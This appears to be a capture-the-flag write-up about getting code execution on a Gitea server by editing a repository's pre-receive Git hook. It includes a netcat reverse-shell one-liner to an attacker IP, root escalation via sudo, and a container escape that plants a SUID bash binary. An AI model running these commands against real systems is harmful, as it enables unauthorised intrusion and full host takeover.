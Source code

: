 After a lot of searching and ruining my brain, I discovered Git Hooks, which are scripts executed by the server when a commit is pushed to a repository. So, as we have permissions to edit these, we can use them to gain RCE from the Gitea.

First, set up a **netcat** listener. Then, create a new repository, go to *Settings >> Git Hooks* and alter one of the three that are shown. In my case, I'll edit the first one, `pre-receive` hook. 

![](Pasted%20image%2020240322215447.png)

![](Pasted%20image%2020240322215523.png)

![](Pasted%20image%2020240322215555.png)

Add to the end the following line: `mkfifo /tmp/f; nc 10.11.74.136 777 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` and update the hook:

![](Pasted%20image%2020240322215627.png)

![](Pasted%20image%2020240322215646.png)

Now, you must clone the repository you just created in the victim's machine and perform a commit like: 

```shell
git clone http://localhost:3000/gitblanc/example.git && cd example
echo "Hello there!" >> README.md
git add .
git commit -m "you are getting fkcd"
git push
```

![](Pasted%20image%2020240322215942.png)

Now we've got a shell as git! Awesome right?
We can check now our current permissions with `sudo -l`:

![](Pasted%20image%2020240322220044.png)

With this, if we run `sudo -s` we are **root**.

![](Pasted%20image%2020240322220143.png)

Now, knowing that we are in a container, we search for some info around. I found that the directory `/data` is exactly the same as the victim's machine `/gitea`:

![](Pasted%20image%2020240322220413.png)

So, with this info, I tried to copy a shell binary from the container into the `/gitea` directory but didn't work. Other option that worked was to set up a webserver on the victim's machine and download a copy of `bash` directly from the host. Then, I set it to have SUID and be executable by everyone:

```shell
# On victim's machine run
ip addr
# Take note of the container ip
cd /bin
python3 -m http.server

# On the container as root run
wget 172.17.0.1:8000/bash -O /data/bash #172.17.0.1 is the container ip
chmod 4755 /data/bash
```
